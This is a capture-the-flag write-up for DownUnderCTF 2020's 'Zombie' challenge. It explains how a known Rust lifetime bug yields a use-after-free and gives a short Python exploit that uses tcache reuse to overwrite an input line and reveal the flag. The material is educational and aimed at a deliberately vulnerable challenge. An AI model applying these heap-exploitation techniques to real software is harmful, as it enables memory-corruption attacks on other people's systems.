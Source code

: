 # DownUnderCTF 2020 - Zombie Writeup
This challenge is about exploiting the Rust bug linked here: https://github.com/rust-lang/rust/issues/25860

Prerequisites: Knowing how the Tcache works.

### The Bug
```Rust
// Issue 25860
fn cell<'a, 'b, T: ?Sized>(_: &'a &'b (), v: &'b mut T) -> &'a mut T { v }

fn virus<'a, T: ?Sized>(input: &'a mut T) -> &'static mut T {
	let f: fn(_, &'a mut T) -> &'static mut T = cell;
	f(&&(), input)
}

fn zombie(size: usize) -> &'static mut [u8] {
	let mut object = vec![b'A'; size];
	let r = virus(object.as_mut());
	r
}
```

I am not experienced with Rust, but I do have experience with C++, which I think has helped me with understanding the issue.
The `virus` function takes a reference to an object and returns a reference to the same object but as if it is static.

So what does this mean? Static objects have unlimited lifetime. The object is not actually static, so when the `zombie` function exits, `object` is destroyed and its memory is freed. But `zombie` returns a reference to it anyway, which may be used by the caller. This is a **Use After Free**, which should not normally happen in Rust outside of unsafe blocks. Here it is allowed because the static fools the compiler into thinking the object is still alive. It's not, it's a zombie.


### The Exploit
Half the job is already done for us by the challenge. Here's the main loop:

```Rust
println!("What will you do?");

let line = lines.next().unwrap().unwrap();

match line.as_str().trim() {
	"get flag" => continue, // if "get flag", skip this cycle
	"infect" => infected = Some(infect(&mut lines)), // calls zombie with user supplied size
	"eat brains" => eat_brains(&mut lines, &mut infected), // modifies the infected array
	"inspect brains" => inspect_brains(&mut lines, &mut infected), // views the `nfected array
	_ => (),
}
		println!("{}", line);

if line.as_str().trim() == "get flag" { // normally this would be impossible to reach!
	let flag = read_to_string("flag.txt").unwrap();
	println!("Here's the flag: {}", &flag);
}
```

Clearly, what the author wants us to do is to exploit the UAF to change the contents of the `line` variable to `"get flag"`. Accomplishing this is easier than it sounds. Rust may not be C but it's still using libc underneath! We can use the heap exploits we already know and "love".


* Use `infect` to allocate an `infected` array of X bytes. This array is then freed to the X size tcache bin and used by our next commands.
* Use `eat brains`, BUT, pad the input with whitespace so that it is X bytes long.
  The string will be allocated using the X size tcache bin, where our array resides! `line` and `infected` now point to the same memory.
* Finish using the `eat brains` command to modify `infected` so that it starts with `get flag  `, spaces included. This modifies `line` as well.

Here's the code to do this. (Full script in exploit.py, in repo)

```Python
infect(0x50)
p.sendline('eat brains'.ljust(0x50))

for i, c in enumerate('get flag  '):
    p.recvuntil('a victim')
    p.sendline(str(i))
    p.recvuntil('ch!')
    p.sendline(str(ord(c)))

p.recvuntil('a victim')
p.sendline('done')
p.interactive()
```

##### Why 2 spaces?
You need to overwrite `eat brains` fully, one space will not suffice. Result would be `get flag s`

##### Why not \x00?
It does not work. I am guessing it's because of Rust's `trim` behavior and its string implementation. See the tests below.

```Rust
fn main() {
    println!("{}", "get flag\x00" == "get flag"); //false
    println!("{}", "get flag ".trim() == "get flag"); //true
    println!("{}", "get flag\x00".trim() == "get flag"); //false
}
```


## The Flag
DUCTF{m3m0ry_s4f3ty_h4ck3d!}

